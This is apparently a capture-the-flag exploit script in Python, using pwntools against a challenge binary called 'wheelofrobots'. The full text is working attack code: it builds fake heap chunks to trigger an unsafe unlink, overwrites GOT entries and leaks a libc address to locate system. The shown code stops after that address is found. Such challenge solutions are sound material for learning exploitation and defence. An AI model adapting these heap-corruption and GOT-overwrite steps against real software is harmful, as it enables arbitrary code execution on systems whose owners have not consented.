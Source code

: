 ```python
while (True):

	if args.GDB:
		p = gdb.debug('./wheelofrobots', gdbscript=gdbscript)
	else:
		p = process('./wheelofrobots')

	fill_tcache('4')

	fake_chunk_metadata  = p64(0x00000000)		# filler
	fake_chunk_metadata += p64(0x00000451)		# fake_chunk size
	fake_chunk_metadata += p64(0x00603100 - 0x18)	# P->fd->bk = P
	fake_chunk_metadata += p64(0x00603100 - 0x10)	# P->bk->fd = P

	fake_chunk_footer  = p64(0x00000000) * 4
	fake_chunk_footer += p64(0x00000450)	# prev_size
	fake_chunk_footer += p64(0x00000460)	# prev_in_use flag off

	heap_leak_payload = p64(0x603018) + p64(0x6030f0) + p64(0x603098) + p64(0x603018) * 2	# set tim malloc ptr to exit GOT addr and the other bot ptrs to puts GOT addr
	#		                ^ destructor	^ bender	    ^ tim		    ^ devil - billionaire

	add_bot('6', '53')			# malloc > fastbin size to move the pointer for bender ptr deeper in heap to overwrite chunk metadata
	add_bot('2', '4')			# add bender bot for 0x60 chunk
	remove_bot('6')				# remove destructor chunk, gets put into unsorted bin
	remove_bot('2')				# remove bender chunk, gets put in fastbin
	add_bot('4\x00\x00\x00\x01')		# add chainsmoker bot to consolidate fastbin chunk and unsorted bin chunk into one bigger allocated chunk
	remove_bot('4')				# remove this new 0xfa0 size chunk, consolidates because > its next to top chunk and size > tcache max size
	add_bot('3', '55')			# malloc more than the first malloc call so that bender ptr is near end of chunk to overwrite next chunk metadata
	add_bot('6', '55')			# add another chunke > tcache max size, metadata will be overwritten
	change_name('2', fake_chunk_footer)	# set prev_size and prev_in_use flag to off
	change_name('3', fake_chunk_metadata)	# set fake chunk metadata, will get new chunk at global pointer
	remove_bot('6')				# cause unsafe unlink

	add_bot('4')				# so we can spin wheel
	add_bot('1')				# add tim, which sets tims malloc ptr
	change_name('3', heap_leak_payload)	# use new chunk at destructor ptr - 0x18 to overwrite tim ptr to start of GOT

	change_name('1', p64(0x4013e0))		# set free to dummy value to overwrite again later and set _exit to instruction in main to restart main

	change_name('3', b'\x01')		# change LSB null byte of GOT free addr so that program prints entire addr

	print(p.recvuntil(b'choice :').decode())
	p.send(b'4')				# spin wheel to try and print value of free address

	free_addr = int.from_bytes(p.recvuntil(b'!\n', timeout=1)[-8:-2], byteorder='little') - 1

	if ((free_addr - libc.sym['free']) & 0xfffff != 0x00000):
		print('[+] Garbage libc base address')
		p.close()
		continue

	libc.address = free_addr - libc.sym['free']
	system = libc.sym['system']
```